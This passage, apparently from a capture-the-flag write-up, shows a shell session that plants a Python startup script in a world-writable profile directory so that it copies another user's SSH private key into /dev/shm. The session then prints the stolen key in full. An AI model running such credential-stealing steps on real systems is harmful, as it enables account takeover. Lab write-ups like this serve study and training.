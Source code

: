 With this information steal dan_smith's id_rsa

```bash
james_mason@shared:/opt/scripts_review$ mkdir -m 777 profile_default
james_mason@shared:/opt/scripts_review$ mkdir -m 777 profile_default/startup
james_mason@shared:/opt/scripts_review$ echo 'import os; os.system("cp /home/dan_smith/.ssh/id_rsa /dev/shm/dan-id_rsa && chmod 777 /dev/shm/dan-id_rsa")' > profile_default/startup/exploit.py
james_mason@shared:/opt/scripts_review$ chmod +x profile_default/startup/exploit.py

james_mason@shared:/opt/scripts_review$ ls -al /dev/shm/
total 3012
drwxrwxrwt  2 root        root             80 Aug 25 07:42 .
drwxr-xr-x 17 root        root           3080 Aug 25 03:03 ..
-rwxrwxrwx  1 dan_smith   developer      2602 Aug 25 07:47 dan-id_rsa

james_mason@shared:/opt/scripts_review$ cat /dev/shm/dan-id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
